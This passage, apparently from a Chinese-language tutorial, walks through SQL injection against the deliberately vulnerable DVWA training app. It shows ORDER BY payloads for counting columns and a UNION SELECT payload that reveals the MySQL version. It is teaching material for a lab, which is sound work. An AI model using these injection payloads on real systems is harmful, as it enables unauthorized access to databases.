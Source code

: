 其中我们必须用一个递增的索引替换“<number>”，直到我们得到一个错误。</number>

因此，让我们尝试传递以下字符串作为输入:

```
1' ORDER BY 1 # 
1' ORDER BY 2 # 
1' ORDER BY 3 #
```

当我们尝试使用“index=3”时，服务器会引发一个错误，并显示以下消息:

```
Unknown column '3' in 'order clause'
```

这意味着该查询涉及两个字段，当我们试图使用 UNION SELECT 查询获取附加信息时，这将很有帮助。

我们可以通过键入以下命令来检查我们对 DBMS 的假设:

```
1' OR 1=1 UNION SELECT 1, VERSION()#
```

函数“ [VERSION](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_version) ”来自 MySQL，显示“VERSION”系统变量。
因此，在点击“提交”并得到下图中的结果后，我们知道 DBMS 是 MySQL。

![](img/380a69ef79f7ba90ba7dbfc44a6d9680.png)

在最后一行中，我们还获得了正在运行的 DBMS 的版本:5.5.61。

# DVWA 低安全性的 SQL 注入:获取模式信息
